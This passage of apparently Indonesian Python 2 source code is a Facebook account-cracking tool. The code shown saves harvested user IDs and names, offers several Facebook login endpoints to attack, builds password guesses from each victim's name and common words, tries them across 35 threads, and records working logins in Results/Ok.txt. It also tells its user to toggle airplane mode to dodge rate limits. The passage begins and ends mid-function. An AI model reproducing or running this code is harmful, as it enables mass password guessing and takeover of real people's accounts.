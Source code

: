                 file.write(a['id']+"<=>"+a['name']+'\n')
                print("\r\x1b[1;97m"+a['id']+"<=>"+a['name'])
        file.close()
        ___user___ = open(___file___,'r').readlines()
        print("\r%s                    "%(P))
        print("%s[%s*%s]%s Selesai..."%(H,P,H,P))
        print("%s[%s?%s]%s Total ID :%s %s"%(H,P,H,P,K,len(___user___)))
        print("%s[%s?%s]%s File Tersimpan Di :%s %s"%(H,P,H,P,K,___file___))
        raw_input("\n%s[%sKembali%s]"%(B,H,B));___menu___()
    except (KeyError):
        exit("%s[%s!%s]%s Dump Gagal"%(P,M,P,M))
    except (ConnectionError):
        exit("%s[%s!%s]%s Koneksi Error"%(P,K,P,K))
def ___metode___():
    print("\n%s[%s1%s]%s Metode mbasic.facebook.com"%(B,P,B,P))
    print("%s[%s2%s]%s Metode free.facebook.com"%(B,P,B,P))
    print("%s[%s3%s]%s Metode mobile.facebook.com"%(B,P,B,P))
    print("%s[%s4%s]%s Metode d.facebook.com %s[%sNew%s]"%(M,P,M,P,B,H,B))
    print("%s[%s5%s]%s Metode b-api.facebook.com"%(B,P,B,P))
    print("%s[%s6%s]%s Metode x.facebook.com %s[%sNew%s]"%(M,P,M,P,B,H,B))
    ___metode___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
    if ___metode___ in ['1','01']:
        print("\n%s[%s1%s]%s Gunakan Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n%s[%s*%s]%s Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Abdullwh  Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Abdullwh  Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(mbasic, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai%s]"%(B,H,P))
    elif ___metode___ in ['2','02']:
        print("\n%s[%s1%s]%s Gunakan Password [nama,nama123,nama12345,Bangladesh,001122]"%(H,P,H,P))
        print("%s[%s2%s]%s Gunakan Password [nama,nama123,nama1234,786786,nama12345,nama123456,Pakistan]"%(H,P,H,P))
        print("%s[%s3%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))